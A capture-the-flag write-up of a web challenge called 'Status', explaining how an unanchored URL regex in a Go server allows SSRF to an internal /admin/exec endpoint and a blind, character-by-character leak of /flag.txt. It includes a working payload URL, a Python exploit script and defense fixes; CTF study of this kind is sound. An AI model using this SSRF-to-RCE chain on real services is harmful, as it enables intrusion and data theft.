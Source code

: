 # Status  - CTF Challenge Writeup

- **Challenge Name:** Status
- **Category:** Web Security
- **Attached:** [`web-status.zip`](./Files/web-status.zip)

## Exploration

We are provided with the source code of a small Go web server. Its purpose is to check whether a given website is "up" or "down." The server enforces a regex check so that only URLs starting with `ctf.uscybergames.com` are allowed.

The application exposes two endpoints:

- `/status-check`: Takes a url parameter and reports the status of the target site.

- `/admin/exec`: An internal IT maintenance endpoint that executes arbitrary shell commands (intended to be accessible only from localhost).

At first glance, the system appears restricted and hardened (regex checks, stripped-down Docker image). However, with careful analysis we discovered multiple misconfigurations that chain together into a full SSRF → RCE → flag exfiltration attack.

### 1. Over-permissive regex in `/status-check`

```go
match, _ := regexp.MatchString(`^(https?:\/\/)?ctf.uscybergames\.com`, url)
```

* The regex **lacks an end-of-string anchor (`$`)**, so it matches *any* string that begins with `http://ctf.uscybergames.com`, regardless of the real host.
* This opens the door to URL smuggling via usernames:

  ```
  http://ctf.uscybergames.com@127.0.0.1:8080/admin/exec?cmd=cat%20/flag.txt
  ```

  * The regex passes since the string starts with `ctf.uscybergames.com`.
  * But when Go parses it, `ctf.uscybergames.com` is treated as the **username**, and `127.0.0.1:8080` is the actual host.
  * The request is routed to the internal admin interface.
* This turns into a classic **SSRF → RCE chain**:

  1. Call `/status-check?url=<poisoned-url>`.
  2. Go’s `client.Get` follows the URL to `127.0.0.1:8080/admin/exec`.
  3. Since the request comes from `127.0.0.1`, it passes internal IP checks.



### 2. Unrestricted shell execution in `/admin/exec`

```go
cmd := exec.Command("sh", "-c", cmdStr)
```

* No sanitization. No escaping.
* Once you can reach `/admin/exec`, you have **arbitrary shell command execution**.



### 3. Dockerfile "hardening" is mostly cosmetic

```dockerfile
FROM busybox:latest
WORKDIR /bin
RUN rm -rf *
COPY --from=busybox:latest /bin/busybox /bin/sh
COPY --from=builder /build/app app
COPY flag.txt /flag.txt
```

* The author wipes `/bin` and leaves only `/bin/sh`.
* This blocks common tools (`cat`, `echo`, `curl`, etc.), forcing attackers to rely solely on shell built-ins.
* Annoying, but not a real defense.



### 4. Insecure TLS settings

```go
http.DefaultTransport.(*http.Transport).TLSClientConfig = &tls.Config{InsecureSkipVerify: true}
```

* Disabling TLS verification globally means **any HTTPS service can be spoofed or MITM’d**.
* This didn’t directly matter for the exploit, but it’s a dangerous practice.



## Crafting the Exploit

With only `sh` built-ins available, we needed a **blind exfiltration strategy**. The only feedback channel was the service’s "up" vs "down" status.

**Key insight**: `/admin/exec`’s exit code controls `/status-check`’s output:

* `exit 0` → "up"
* non-zero exit → "down"

So we can brute-force the flag, one character at a time:

1. `read flag < /flag.txt`
2. Use a `case` statement to check if the flag starts with a guessed prefix.
3. Exit `0` if true, `1` otherwise.
4. Use "up"/"down" as the oracle.

### Exploit Script

```python
#!/usr/bin/env python3
import requests
import time
import string
from urllib.parse import quote

BASE = "http://127.0.0.1:8080"
sess = requests.Session()

alphabet = string.ascii_letters + string.digits + "{}_"
flag = ""

print("Starting blind leak...")

while True:
    found = False
    for c in alphabet:
        print(f"Trying {c}", end="\r")
        prefix = flag + c
        # build a shell snippet that:
        #  1) reads the flag into $flag
        #  2) tests if $flag starts with our prefix
        #  3) exits 0 if yes, 1 if no
        #  Optimization: Binary Search
        sh_cmd = (
            "read flag < /flag.txt; "
            'case "$flag" in '
            f'"{prefix}"*) exit 0 ;; '
            "*) exit 1 ;; "
            "esac"
        )
        payload = quote(sh_cmd, safe="")
        ssrf = "http://ctf.uscybergames.com@127.0.0.1:8080/admin/exec?cmd=" + payload

        r = sess.get(f"{BASE}/status-check", params={"url": ssrf}, timeout=5)
        body = r.text.strip()

        # "up" means exit code 0 i.e. prefix is correct
        if body == "up":
            flag = prefix
            print(f"Got character: {c!r} -> flag = {flag}")
            found = True
            break

        time.sleep(0.1)

    if not found:
        print("Leak complete. Final flag:", flag)
        break
```



## Defense Recommendations

1. Fix regex: `^(https?:\/\/)?ctf\.uscybergames\.com$`
2. Validate the parsed URL hostname, not just the raw string.
3. Remove or lock down `/admin/exec`.
4. Run containers as non-root.


## Real-World Impact

This exploit chain demonstrates a **textbook SSRF → RCE** path, similar to what often happens in cloud environments where services trust requests from `localhost` or internal networks. Small misconfigurations can cascade into full compromise.